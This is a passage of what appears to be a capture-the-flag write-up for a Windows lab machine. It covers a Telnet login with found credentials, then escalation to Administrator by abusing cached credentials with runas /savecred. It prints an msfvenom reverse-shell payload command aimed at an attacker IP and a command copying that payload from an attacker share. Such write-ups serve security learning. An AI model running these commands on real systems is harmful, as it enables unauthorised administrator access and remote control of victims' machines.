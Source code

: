 ```html
John
<snip>
```


### Telnet - TCP 23

Using the credentials found from **Access Control.pst**, I will sign-in to Telnet service:

![](https://i.imgur.com/GOgwVUe.png)

Now I have a interactive shell as **security**
## Privesc: security to Administrator

From local enumeration, I see **ZKAccess3.5 Security System.lnk** file inside **C:\Users\Public\Desktop**:

![](https://i.imgur.com/bofpQHg.png)

I will take a look at the file and it seems like there is a runas command being used as **Administrator** using the save credentials:

![](https://i.imgur.com/4FvOQPy.png)

Using `cmdkey /list`, I can confirm that Administrator's password is cached:

![](https://i.imgur.com/64XfYMD.png)

In order to spawn a reverse shell as Administrator using saved credentials, I will first create a reverse shell using **msfvenom**:

`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.12 LPORT=1337 -f exe > rev.exe`

![](https://i.imgur.com/eV54tur.png)

Now I will transfer reverse shell payload to target machine:

`copy \\10.10.16.12\share\rev.exe`

![](https://i.imgur.com/5HuMpHt.png)

I will execute the reverse shell payload using **runas** and **cached credential**:

`C:\Users\security\AppData\Local\Temp>runas /user:ACCESS\Administrator /savecred rev.exe`

![](https://i.imgur.com/71VrqNa.png)

Now on my local listener, shell is spawned as Administrator:

![](https://i.imgur.com/NkEeozJ.png)


## Beyond Root
### Persistence
